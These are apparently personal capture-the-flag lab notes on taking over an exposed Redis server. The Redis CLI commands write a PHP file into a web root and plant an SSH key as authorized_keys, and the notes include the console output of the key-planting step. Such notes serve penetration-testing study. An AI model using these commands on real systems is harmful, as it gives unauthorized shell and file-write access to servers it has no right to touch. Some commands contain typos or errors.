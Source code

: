 ## Install Redis tools
```bash
sudo apt-get install redis-tools
```

## Redis Cli
https://ppn.snovvcrash.rocks/pentest/infrastructure/dbms/redis

```bash
redis-cli -h <ip>
redis-cli key *
config set dir /var/www/html/uplaod
config set dbfilename redis.php
set test "<?php phpinfo() ?>"
save
```

### Creating ssh key
```bash
ssh-keygen -t rsa -b 4096
```
Cat the postman.pub and add two line breaks at top and two at the buttom of the key.

```bash
cat postman.pub| redis-cli -h 10.129.2.1 -x set crackit
## Did not work
```

```bash
redis-cli -h 10.129.2.1
config set dir /home/test/.ssh
## Not a directory / permission issues
```
### Google redis home dir
```bash
config set dir /var/lib/redis
config set dir /var/lib/redis/.ssh
config set dbfilename "authorized_keys"
save
```
## Outpub
```bash
10.129.2.1:6379> config set dir /var/lib/redis
OK
10.129.2.1:6379> config set dir /var/lib/redis/.ssh
OK
10.129.2.1:6379> config set dbfilename "authorized_keys"
OK
10.129.2.1:6379> save
OK
10.129.2.1:6379> 
```
